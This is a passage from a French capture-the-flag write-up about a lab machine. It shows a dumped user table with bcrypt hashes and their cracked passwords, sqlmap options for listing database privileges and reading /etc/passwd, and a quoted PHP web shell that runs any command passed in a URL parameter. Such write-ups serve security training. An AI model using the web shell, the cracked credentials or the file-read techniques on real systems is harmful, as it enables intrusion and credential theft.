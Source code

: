 ```plain
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
| id | bio               | role          | email               | status | updated             | username | password                                                     | real_name     |
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
| 1  | The bouse         | administrator | myemail@local.local | active | 2018-10-22 04:20:20 | admin    | $2y$12$XyIp48YfHyfF8m6UfeN2nO3kLk.PgnL6Lz/pQolT4rDzsyYHGsSdC | Administrator |
| 2  | <blank>           | administrator | jim@test.local      | active | 2018-10-23 03:59:30 | jim      | $2y$12$MaNoQI.ro2vd3Eplh0m.u.Fs/POoCoADcRFCExYhFvX9nSPk6F7Vi | jim           |
| 3  | <blank>           | administrator | heather@local.local | active | 2018-10-23 04:10:46 | heather  | $2y$12$RXw2Ye66qe5FtirI/95mFeQMQt2L7jezw9evcA8DEg0QOp3YZE2xq | heather       |
| 4  | {{tryharder:913}} | administrator | larryjr@local.local | active | 2018-10-23 04:19:37 | larryjr  | $2y$12$2jeSR68yBEVqJ88kA16HJ.qgjMy963lXyUY.7AAfKRSCGD1zgK62i | larryjr       |
+----+-------------------+---------------+---------------------+--------+---------------------+----------+--------------------------------------------------------------+---------------+
```

Un flag de plus ! Pour le reste les hashs se cassent rapidement :  

```plain
$2y$12$MaNoQI.ro2vd3Eplh0m.u.Fs/POoCoADcRFCExYhFvX9nSPk6F7Vi:password
$2y$12$RXw2Ye66qe5FtirI/95mFeQMQt2L7jezw9evcA8DEg0QOp3YZE2xq:heather
$2y$12$XyIp48YfHyfF8m6UfeN2nO3kLk.PgnL6Lz/pQolT4rDzsyYHGsSdC:anchor
$2y$12$2jeSR68yBEVqJ88kA16HJ.qgjMy963lXyUY.7AAfKRSCGD1zgK62i:larryjr
```

Avec l'option *--privileges* de SQLmap je peux dumper la liste des droits dont je dispose sur le serveur MySQL et ils sont nombreux puisque l'utilisateur *root* de la DB est utillisé. Je peux ainsi si je le souhaite lire */etc/passwd* avec *--file-read* de SQLmap.  

En revanche impossible de charger */etc/shadow* donc effectivement cette histoire de base de données tournant en root était fausse.  

Father wears his Sunday best
----------------------------

Le dernier fichier présent dans */timeclock/backup/* est un script nommé *browse\_backups.php* et là encore il permet l'exécution de commande.  

Il est tout simple :  

```php
<pre><?php

if(isset($_GET['cmd'])){
        echo "<pre>";
        $cmd = ($_GET['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```
